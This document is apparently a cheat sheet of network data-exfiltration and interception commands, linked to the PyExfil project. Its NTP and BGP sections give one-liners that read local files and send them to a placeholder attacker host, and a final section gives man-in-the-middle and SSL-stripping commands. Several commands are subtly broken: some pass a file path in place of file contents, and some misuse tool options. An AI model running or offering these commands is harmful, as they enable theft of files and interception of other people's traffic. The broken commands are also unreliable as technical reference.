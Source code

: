 https://github.com/ytisf/PyExfil

### NTP Body 

1. **Using ntpdate on Linux to send data in NTP packet body:**


`echo -n "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} ntpdate -q attacker.com {}`

2. **Using ntpdate on macOS to send data in NTP packet body:**


`echo -n "$(cat /path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} sntp -q -s attacker.com {}`

3. **Using ntpdate on Windows with Windows Subsystem for Linux (WSL):**


`echo -n "$(cat /mnt/c/path/to/local/file.txt)" | xxd -p | sed 's/\(..\)/\1 /g' | xargs -I {} ntpdate -q attacker.com {}`

### BGP Open 

1. **Using Python to send data in BGP Open message fields:**


`python -c "from scapy.all import *; send(IP(dst='attacker_IP')/TCP(dport=179)/BGPHeader(marker=0xffffffffffffffff,msg_len=32)/BGPOpen(version=4,asn=65535,hold_time=180, id='0.0.0.0', params='/path/to/local/file.txt'))"`

2. **Using hping3 to send data in BGP Open message fields:**


`echo -n "$(cat /path/to/local/file.txt)" | hping3 -E /dev/stdin -p 179 -s 179 --flood -V attacker_IP`

3. **Using scapy module in Python on Windows Subsystem for Linux (WSL):**


`python -c "from scapy.all import *; send(IP(dst='attacker_IP')/TCP(dport=179)/BGPHeader(marker=0xffffffffffffffff,msg_len=32)/BGPOpen(version=4,asn=65535,hold_time=180, id='0.0.0.0', params='/mnt/c/path/to/local/file.txt'))"`

### HTTPS Replace Certificate

1. **Using mitmproxy to intercept HTTPS traffic with a self-signed certificate:**


`mitmproxy -p 8080 --cert private.pem`

After launching, configure the client to use the proxy and accept the custom certificate.

2. **Using Bettercap to perform a man-in-the-middle attack with SSL stripping:**


`bettercap -T [target_IP] -X -P post`

This command targets a specific IP and performs SSL stripping to downgrade HTTPS to HTTP.

3. **Using Fiddler to intercept HTTPS traffic and replace the certificate:** Install Fiddler, enable HTTPS decryption, and import your certificate for the target domain.
